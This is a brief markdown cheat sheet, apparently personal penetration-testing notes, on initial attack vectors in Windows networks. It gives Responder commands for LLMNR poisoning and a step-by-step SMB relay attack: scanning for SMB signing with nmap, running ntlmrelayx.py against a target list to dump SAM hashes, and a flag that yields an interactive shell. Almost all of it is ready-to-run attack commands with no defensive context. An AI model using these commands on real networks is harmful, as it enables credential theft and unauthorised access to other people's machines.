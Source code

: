 # Initial Attack Vectors

## LLMNR Poisoning
- `responder -I <INTERFACE_NAME> -dwv`


## SMB Relay

#### Prerequisite
- smb signing must be disabled on the target (by default is disable on client windows and enable on server windows)
- relayed user credentials must be admin on target machine

#### Check if smb signing is off on the targets:
- `nmap --script=smb2-security-mode.nse -p445 192.168.189.0/24`

#### Steps for this attack:
1. edit `responder.conf` and turn off smb and http services
2. run responder : `responder -I <INTERFACE_NAME> -dwv`
3. Put targets ip address in targets.txt file
4. run `ntlmrelayx.py -tf targets.txt -smb2support`
5. it will capture SAM file of the target machine

- Note : using `-i` with `ntlmrelayx.py` will give an interactive shell
